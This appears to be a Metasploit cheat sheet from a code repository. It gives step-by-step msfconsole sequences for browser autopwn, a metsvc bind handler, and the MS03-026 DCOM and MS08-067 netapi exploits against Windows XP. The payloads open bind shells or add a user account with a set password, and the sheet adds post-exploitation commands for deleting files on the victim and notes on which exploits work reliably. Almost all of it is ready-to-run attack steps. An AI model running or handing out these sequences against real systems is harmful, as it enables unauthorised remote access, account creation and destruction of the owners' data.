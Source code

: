 Metasploit Exploits cheats
==========================

<pre>
msfconsole #starts metasploit
msfupdate #updates metasploit
run + two tabs #lists all meterpreter scripts
</pre>


<h4>browser autopwn</h4>
<pre>
#victim needs to visit 192.168.1.100
msf> use auxiliary/server/browser_autopwn
msf> set LHOST 192.168.1.100
msf> set SRVPORT 80
msf> set URIPATH /
msf> run
</pre>


<h4>metsvc exploit</h4>
<pre>
#less noisy than persistance exploit
msf> use exploit/multi/handler
msf> set PAYLOAD windows/metsvc_bind_tcp
msf> exploit

post exploit:
run metsvc -r     #removes the service; also remove metsrv.dll, metsvc-server.exe, metsvc.exe 
</pre>



<h4>ms03 exploit</h4>
<pre>
#did not work on service pack 3
msf> use exploit/windows/dcerpc/ms03_026_dcom
msf> set RHOST 192.168.1.101
msf> set PAYLOAD windows/shell_bind_tcp #binds shell on victims tcp port
msf> show options
msf> exploit
</pre>


<h4>netapi exploit</h4>
<pre>
#works almost all of the time on XP
#opens shell session
msf> use exploit/windows/smb/ms08_067_netapi 
msf> set RHOST 192.168.1.101
msf> set PAYLOAD windows/shell_bind_tcp
msf> set LPORT 6000
msf> show options
msf> exploit

post exploit:
netstat -n    #run on victim will show the connection
dir     #lists all files on directory
del     #delete a file on the victim
</pre>


<h4>netapi exploit - adduser</h4>
<pre>
#works on XP almost all of the time
msf> use exploit/windows/smb/ms08_067_netapi 
msf> set RHOST 192.168.1.101
msf> set PAYLOAD windows/adduser
msf> set LPORT 6000
msf> set USER Welcome-Wagon
msf> set PASS h@ck3d
msf> show options
msf> exploit
</pre>
